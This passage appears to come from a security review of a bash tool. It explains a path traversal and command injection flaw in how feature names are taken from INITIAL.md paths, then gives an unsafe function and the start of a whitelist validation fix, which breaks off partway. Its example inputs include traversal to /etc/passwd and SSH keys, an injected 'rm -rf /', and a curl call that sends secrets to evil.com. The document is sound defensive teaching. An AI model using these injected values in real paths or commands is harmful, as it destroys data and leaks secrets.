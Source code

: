 
### 2. Security Validation Bypass via Path Traversal

**Severity**: Critical
**Category**: Security / Command Injection
**Affects**: Feature name extraction from INITIAL.md file paths
**Source**: security-validation.md, OWASP (https://owasp.org/www-community/attacks/Path_Traversal)

**What it is**:
If feature name extraction doesn't validate for path traversal sequences (`..`, `/`, `\`), attackers can manipulate file paths to escape the `prps/` directory and overwrite arbitrary files. Combined with insufficient character validation, this enables command injection via shell metacharacters in feature names.

**Why it's a problem**:
- **Path traversal**: `prps/INITIAL_../../etc/passwd.md` → writes to `/etc/passwd`
- **Command injection**: `prps/INITIAL_test;rm -rf /.md` → executes `rm -rf /`
- **Directory escape**: `prps/INITIAL_../../../root/.ssh/authorized_keys.md` → compromise system
- **Data exfiltration**: `prps/INITIAL_test\`curl evil.com?data=\$(cat secret)\`.md` → leak secrets

**How to detect it**:
- Search code for: `basename`, `dirname`, path construction without validation
- Pattern match: Path operations before security checks
- Test: Pass `INITIAL_../../etc/test.md` and verify rejection
- Audit: Check if validation uses whitelist (good) or blacklist (bad)

**How to avoid/fix**:
```bash
# ❌ WRONG - No validation, vulnerable to traversal and injection
extract_feature_name_unsafe() {
    local filepath="$1"
    local basename=$(basename "$filepath" .md)
    local feature="${basename#INITIAL_}"  # Strip prefix
    echo "$feature"  # DANGER: Could be "../../etc/passwd" or "test;rm -rf /"
}

# Call with dangerous input
FEATURE=$(extract_feature_name_unsafe "prps/INITIAL_../../etc/passwd.md")
mkdir -p "prps/${FEATURE}/planning"  # Creates /etc/passwd/planning!

# ✅ RIGHT - 6-level security validation (defense in depth)
validate_feature_name() {
    local feature="$1"
    local validate_redundant="${2:-true}"

    # Level 1: Path traversal in feature name
    if [[ "$feature" == *".."* || "$feature" == *"/"* || "$feature" == *"\\"* ]]; then
        echo "❌ Path traversal detected in feature name: $feature" >&2
        echo "Feature names cannot contain: .. / \\" >&2
        return 1
    fi

    # Level 2: Whitelist check (only alphanumeric, underscore, hyphen)
    if [[ ! "$feature" =~ ^[a-zA-Z0-9_-]+$ ]]; then
        echo "❌ Invalid characters in feature name: $feature" >&2
        echo "Allowed: letters, numbers, underscore, hyphen" >&2
        return 1
    fi

    # Level 3: Length check (prevent buffer overflow, filesystem limits)
    if [ ${#feature} -gt 50 ]; then
        echo "❌ Feature name too long: ${#feature} chars (max 50)" >&2
        return 1
    fi

    # Level 4: Command injection characters (defense in depth)
```